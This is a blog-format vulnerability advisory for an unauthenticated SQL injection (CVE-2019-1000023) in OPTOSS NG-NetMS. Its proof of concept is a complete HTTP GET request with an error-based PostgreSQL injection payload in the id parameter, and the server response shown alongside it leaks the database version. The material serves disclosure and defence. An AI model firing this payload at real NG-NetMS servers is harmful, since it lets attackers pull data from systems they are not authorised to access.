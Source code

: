 ```yaml
---
layout: post
title:  "SQL Injection in OPTOSS Next Gen Network Management System (NG-NetMS)"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


Vendor: OPT/NET BV

Product: OPTOSS Next Gen Network Management System (NG-NetMS)

Version affected: NG-NetMS v3.6-2 and earlier versions

#### Product description:
Opt/Net develops Next Gen Network Management System (NG-NetMS). This is a new web based end-to-end management tool. This project is nearly 14 years old and already proved to be indispensable tool for rapid data collection during audits and network infrastructure assessments.

This product provides near real-time visibility of the networks and ITC infrastructures and interconnected computing resources.

* CVE ID: CVE-2019-1000023
* CWE ID: CWE-89

#### #Proof of Concept

The unauthenticated SQL Injection vulnerability can be exploited by issuing a specially crafted HTTP GET request. NG-NetMS v3.4 application fails to properly sanitize untrusted data before adding it to a SQL query. A malicious attacker can include own SQL commands which database will execute.

Identified vulnerable parameters: id, id_access_type and id_attr_access.  

The following HTTP GET request allows an attacker to exploit the SQL injection vulnerability to return banner information.

#### Request:
{% highlight ruby %}
GET /index.php?id=1%27%20AND%201=CAST((CHR(113)||CHR(112)||CHR(107)||CHR(122)||CHR(113))||(COALESCE(CAST(VERSION()%20AS%20CHARACTER(10000)),(CHR(32))))::text||(CHR(113)||CHR(106)||CHR(120)||CHR(113)||CHR(113))%20AS%20NUMERIC)--%20&r=attrValue/index HTTP/1.1
Host: a.b.c.d
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=q42805kqdm1pq02ig6omhfn3k4
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: no-transform
{% endhighlight %}

#### Response: 
{% highlight ruby %}
HTTP/1.1 500 Internal Server Error
Date: Mon, 30 Oct 2017 05:25:01 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.11
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html
Content-Length: 43313

<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>

<snip>

<h2>Error 500</h2>

<div class="error">
CDbCommand failed to execute the SQL statement: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type numeric: &quot;qpkzq PostgreSQL 9.3.9 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4, 64-bit qjxqq&quot;</div>        </div><!-- content -->
    </div>
    <div class="span3">
        <div id="sidebar">
                </div><!-- sidebar -->
    </div>
</div>

</snip>
{% endhighlight %}

#### References
1. https://www.owasp.org/index.php/SQL_Injection
2. https://opt-net.eu/products/optoss-ng-netms
3. https://sourceforge.net/projects/ngnms/
